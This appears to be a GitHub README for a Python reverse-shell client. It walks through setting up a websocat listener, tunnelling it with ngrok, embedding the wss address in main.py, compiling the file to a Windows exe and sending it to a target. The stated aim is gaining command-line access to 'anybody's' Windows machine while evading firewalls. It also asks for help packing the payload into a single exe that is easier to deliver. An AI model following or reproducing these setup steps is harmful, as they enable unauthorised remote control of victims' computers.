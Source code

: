 <p align="center">
  <img src="./Images/NEMESIS_TEAM_LOGO.jpg" alt="NEMESIS TEAM LOGO" style="border-radius:5px"/>
</p>

# Intelligent Reverse Shell Client

## Introduction
 - This program is the client side of Reverse shell attack, It was created as a fun project but things get intresting when you can gain access to anybody's Windows command line without being concerned about the FIREWALL xD.
 - Because the Information are being transfered through Websocket, Firewall can do nothing to stop it on the client's system.
 - and Also about the security, By using this you don't need to do port forwarding and other unsafe stuff, so your security is more GURANTEED.
 - the only problem is the speed, the speed may be a little low and that depends on which tunneling service you are using, for now we use ngrok.

## DESCRIPTION
 - If you are the hacker you have to listen for the connection using websocat(included in project for both linux and Windows) and expose it to the internet with ngrok.
 - and then you have to paste the wss address to the main.py -> (the client file) and compile it to exe

---
## How to use
 * Assuming you already have enough knowledge about python, pyinstaller and websockets.

    First of all install the Requirements :
    ```
    pip install -r requirements.txt
    ```
    
    <br>then we have to first setup the listener, It is recomented to listen on a linux machine but Windows is also alright
    as you can see in `Listeners` Directory we have <a href="https://github.com/vi/websocat">Websocat</a><br>
     both for windows and linux, If you faced any error try downloading the last version

     based on your OS run:
    ```
    websocat -s xxxx
    ```
    where xxxx is the port you want to listen on so replace it with a port number like
    ```
    websocat -s 5050
    ```
    <br>
    Now we have to expose port 5050 to the internt so we can make it accessible for the target so we can access the target Windoes machine.
    <br>
    Doanload <a href="https://ngrok.com">ngrok</a>.<br><br>
    After downloading ngrok:<br>
    on windows : Move it to a folder so you can run it by opening a cmd in that directory<br>
    on Linux: Also do the same thing as windows except you also have to give execute permition to it by running:<br>
    
    ```
    chmod +x ngrok
    ```
    Then copy your Authtoken from <a href="https://ngrok.com">ngrok</a> Dashboard and then run:

    ```
    ./ngrok authtoken xxxxx
    ```
    replace your token with xxxxx.<br>
    After authenticating it's time to run it:

    ```
    ./ngrok http 5050
    ```
    (!) Note : make sure the port you are using for both websocat and ngrok are the same.<br>
    After Running that you will see something like this:<br>
    <p align="center">
    <img src="./Images/ngrok.png" alt="ngrok"/></p>

    Just Copy the link as underlined in the screen shot and paste it in `address = ""` variable in main.py <br> ( [!] Don't forget to replace `https` with `wss` ).
    <br><br>

    Now that we have set up our liteners we need to run main.py file.
    <br>

    ```
    py main.py
    ```
    but since we have to compile it to exe then it will be ready to be sent to our target.
    there are different ways of compiling .py to .exe e.g. Pyinstaller, cxfreeze, py2exe, Cython.
    <br>
    Just compile it to exe and then run it, and you'll gain access to that Windows machine from your litener machine.
    <br>
    
    <bt>
    run:

## IMPORTANT
---
 - Unfortunately I tried compiling main.py to a standalone exe using `Pyinstaller` but after running the exe everything works fine except when I try commands that are not localy defined in our main.py code.
 <br> Actually 
 main.py : Line 82 : `data = os.popen(cmd).read()` doesn't work after compiling with this command :
 
 ```
 pyinstaller --onefile --noconsole main.py 
 ```
 <br>

 - But if you compile it normally(not onefile) it works perfectly but it will be hard to carry it to the target to run it since it is not a single file.
 <br>


## NOTES
---
- Any Recommendation will be appreciated, don't forget `Pull requests` if you have any idea to improve this project . 👙🤺

 ### I'll appreciate if anyone can help us find a better way to compile it to a standalone single file Until pyinstaller fixes it.

### Do not HeZiTaTe to open issues if there was any other problem!
<p align="center">
❤️❤️❤️
</p>